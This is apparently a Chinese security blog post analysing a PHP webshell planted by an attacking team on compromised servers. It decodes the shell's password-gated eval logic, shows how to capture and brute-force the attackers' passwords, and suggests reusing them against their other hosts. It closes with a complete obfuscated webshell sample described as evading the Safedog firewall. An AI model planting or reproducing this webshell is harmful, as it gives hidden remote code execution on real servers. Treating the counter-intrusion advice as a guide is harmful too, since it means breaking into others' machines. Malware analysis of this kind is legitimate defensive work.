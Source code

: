 ```yaml
---
layout: post
author: Vulkey_Chen
title: "对某攻击队的Webshell进行分析"
date: 2019-08-21
music-id: 
permalink: /archives/2019-08-21/1
description: "对某攻击队的Webshell进行分析"
---
```


对我⽅已拿下的攻击方⾁鸡进⾏⽇志、⽂件等分析，发现⼤部分肉鸡的网站根目录都存在 images.php，提取该文件的内容并分析：

![img](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2019-08-21/image020.png)

提出较为重要的那一段base64decode后的PHP代码进行分析：

```php
@session_start();//开启session

if(isset($_POST['code']))substr(sha1(md5($_POST['a'])),36)=='222f'&&$_SESSION['theCode']=$_POST['code'];if(isset($_SESSION['theCode']))@eval(base64_decode($_SESSION['theCode']));
```

**代码逻辑**：判断POST请求参数code是否有值，当满足条件时则执行`substr(sha1(md5($_POST['a'])),36)=='222f'&&$_SESSION['theCode']=$_POST['code']`，这段代码的意思为将POST请求参数a的值进行md5加密再进行sha1加密，最后从加密后的字符串的第36位开始取值（sha1加密后的值为40位，这里也就是取后4位），当后四位等于`222f`的时候条件为真则执行`$_SESSION['theCode']=$_POST['code']`（Why？**&&是逻辑与操作，如果&&的前面为false了，后面的就不会执行了，所以在这里也就间接的形成了一种判断从而必须满足后四位等于222f的条件**），最后进入该代码执行：`if(isset($_SESSION['theCode']))@eval(base64_decode($_SESSION['theCode']));`，代码如此简单就不再重复描述～

为了满足条件（`substr(sha1(md5($_POST['a'])),36)=='222f'`），我们可以采用钓鱼的方式等攻击方人员主动上钩（修改`images.php`即可）：

![img](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2019-08-21/image021.png)

当攻击方人员主动连接该Webshell时会将POST请求参数a的值写入到`pass.txt`中。

但此方法较为被动，我们还可以在本地搭建一个环境搭配Burp去爆破获取后四位为`222f`的明文：

![img](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2019-08-21/image022.png)

![img](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2019-08-21/image023.png)

获得了：`abc123000`、`lipeng520`、`160376`这三个密码，可利用密码对其他的肉鸡再次进行反打。

**代码样本**：（测试可过安全狗）

```php
<?php

$CF='c'.'r'.'e'.'a'.'t'.'e'.'_'.'f'.'u'.'n'.'c'.'t'.'i'.'o'.'n';

$EB=@$CF('$x','e'.'v'.'a'.'l'.'(b'.'a'.'s'.'e'.'6'.'4'.'_'.'d'.'e'.'c'.'o'.'d'.'e($x));');

$EB('QHNlc3Npb25fc3RhcnQoKTtpZihpc3NldCgkX1BPU1RbJ2NvZGUnXSkpc3Vic3RyKHNoYTEobWQ1KCRfUE9TVFsnYSddKSksMzYpPT0nMjIyZicmJiRfU0VTU0lPTlsndGhlQ29kZSddPSRfUE9TVFsnY29kZSddO2lmKGlzc2V0KCRfU0VTU0lPTlsndGhlQ29kZSddKSlAZXZhbChiYXNlNjRfZGVjb2RlKCRfU0VTU0lPTlsndGhlQ29kZSddKSk7');

?>
```